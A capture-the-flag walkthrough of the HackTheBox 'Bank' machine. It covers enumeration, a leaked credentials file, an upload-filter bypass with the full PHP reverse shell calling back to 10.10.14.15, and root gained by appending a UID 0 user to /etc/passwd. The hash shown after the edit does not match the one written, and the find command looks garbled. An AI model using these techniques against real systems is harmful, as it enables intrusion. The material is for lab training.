

## Enumeration

We start by running nmap to see what ports are on on the target machine 
```bash
sudo nmap -sV 10.10.10.29  
```
We use `-sV` for service detection.
Output:
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 00:32 CEST
Nmap scan report for 10.10.10.29
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```


We need to add a vhost for the website to a website
```bash
echo "10.10.10.29 bank.htb" | sudo tee -a /etc/hosts
```

Now we head to bank.htb
We are redirected to:
```URL
http://bank.htb/login.php
```

We dont have an email or password so we can start fuzzing it 

The word list is a bit tricky here I ended up using this
https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-big.txt

```
feroxbuster -u http://bank.htb/ -w ./directory-list-2.3-big.txt -n
```

## Observations

If you run it for long enough you will see:
```
http://bank.htb/balance-transfer/
```

There are a ton of files that but one of them stands out if you sort by size you can see that one file is significantly smaller than the others 

| [68576f20e9732f1b2edc4df5b8533230.acc](http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc) | 2017-06-15 09:50 | 257 |     |
| ------------------------------------------------------------------------------------------------------------- | ---------------- | --- | --- |

Let open that up:
```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```
If we go back to `http://bank.htb/login.php` we can use the email and password to login!

## Exploit

Once in we can see that we are allowed to upload files via support tickets!


There is an amazing payload we can use to grab a shell:
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15'; // CHANGE THIS 
$port = 4444; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
if we upload it we will see an error 
`You cant upload this this file. You can upload only images.`

We can try a bunch of different file extensions but .htb works so if we make it shell.htb as we are told in the source code:
```
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```


```bash
mv shell.php shell.htb
```
it will upload successfully

Start a nc listener:
```bash
nc -lvnp 4444
```

Now click on `Click Here`


Boom we have a shell!

We can now grab the user flag!
```shell
pwd
/home/chris
cat user.txt
d0006b97a14722fab09ac9a8073ec3ce
```

## privileges escalation

We used the following command to find world-writable files, excluding `/proc`:
`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null /proc /etc/passwd`
```shell
/proc
/etc/passwd/proc
/etc/passwd
/sys/kernel/security/apparmor/policy/.remove
/sys/kernel/security/apparmor/policy/.replace
/sys/kernel/security/apparmor/policy/.load
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.ns_name
/sys/kernel/security/apparmor/.ns_level
/sys/kernel/security/apparmor/.ns_stacked
/sys/kernel/security/apparmor/.stacked
/sys/kernel/security/apparmor/.access
```
This file stores user account information and if writable, allows us to add a new user with UID 0 (root).

Before continuing, we upgraded our shell for better TTY support (needed for `su` to work properly):
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We used OpenSSL to generate a hash for a password we controlled (`gotem` in this case):
```bash
openssl passwd -1 gotem
$1$2EHhd3hp$edzeuIaBlTdQ07bNYe3oW0
```
Note: you'll get a different hash if you use a different password or salt.

Then confirm TTY:
```bash
tty
/dev/pts/0
```
Now we added a new user `r00t` with UID 0 (root) using our generated hash:
```bash
echo 'r00t:$1$2EHhd3hp$edzeuIaBlTdQ07bNYe3oW0:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then confirm it was added:
```bash
grep r00t /etc/passwd
r00t:$1$dgtrcdar$x11t1HhoCCdNHkV1ZFLcA/:0:0:root:/root:/bin/bash
```
Now we switched to the `r00t` user:
```bash
su r00t
password: gotem
```
We successfully gained a root shell by injecting a malicious user into `/etc/passwd`.
```bash
whoami
root
```
Now lets grab the flag and move on!
```bash
cat root/root.txt
f3d14fff8152570e006e25a410bd9a58
```